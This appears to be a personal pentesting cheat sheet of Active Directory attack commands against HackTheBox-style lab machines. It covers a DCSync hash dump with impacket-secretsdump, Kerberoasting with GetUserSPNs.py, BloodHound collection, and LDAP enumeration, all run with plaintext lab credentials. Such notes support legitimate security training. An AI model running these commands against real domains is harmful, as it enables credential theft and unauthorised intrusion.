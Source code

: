 
## secretsdump
```
impacket-secretsdump -just-dc 'svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175 -outputfile dcsync_hashes
```

## enumerate domain controller 
[https://www.g0dmode.biz/active-directory-enumeration/computer-enumeration/domain-controllers](https://www.g0dmode.biz/active-directory-enumeration/computer-enumeration/domain-controllers)

```
([ADSISearcher]"(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=8192))").FindAll()

net group "domain controllers" /domain

sudo nmap -Pn -T4 -p 389,636 --script ldap-rootdse <domain-controller-ip> | grep dnsHostName | sort -u
```

## remote bloodhound

[https://notes.benheater.com/books/active-directory/page/remote-bloodhound](https://notes.benheater.com/books/active-directory/page/remote-bloodhound)

```
bloodhound-python -u fsmith -p Thestrokes23 -d egotistical-bank.local -dc sauna.egotistical-bank.local -ns 10.10.10.175 -c All
```

## GetUserSPNs.py
```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```


## ldapsearch

```
ldapsearch -H ldap://10.10.10.100 -x -D "active\SVC_TGS" -W -b DC=active,DC=htb "(objectClass=user)" | grep sAMAccountName

ldapsearch -H ldap://10.10.10.100 -x -D "active\SVC_TGS" -W -b DC=active,DC=htb "(objectClass=computer)" | grep sAMAccountName

ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
```